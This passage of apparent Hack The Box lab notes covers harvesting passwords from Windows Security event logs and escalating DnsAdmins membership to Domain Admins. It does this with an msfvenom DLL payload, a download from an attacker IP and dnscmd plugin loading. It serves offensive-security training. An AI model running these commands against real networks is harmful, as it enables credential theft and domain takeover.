 
####  Password Searching In Logs - Get-WinEvent


```powershell
PS C:\htb> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

> **Note:** Searching the `Security` event log with `Get-WInEvent` requires administrator access or permissions adjusted on the registry key `HKLM\System\CurrentControlSet\Services\Eventlog\Security`. Membership in just the `Event Log Readers` group is not sufficient.
{: .prompt-warning }

The cmdlet can also be run as another user with the `-Credential` parameter.

Other logs include [PowerShell Operational](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.1) log, which may also contain sensitive information or credentials if script block or module logging is enabled. This log is accessible to unprivileged users.
### DnsAdmins

#### Generating Malicious DLL

We can generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`.

```shell-session
PrinceAli1@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

```powershell
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

#### Loading Custom DLL

``` batch
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

> **Note:** We must specify the full path to our custom DLL or the attack will not work properly.
{: .prompt-warning }

#### Restarting DNS Service 

Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.

If we do not have access to restart the DNS server, we will have to wait until the server or service restarts.
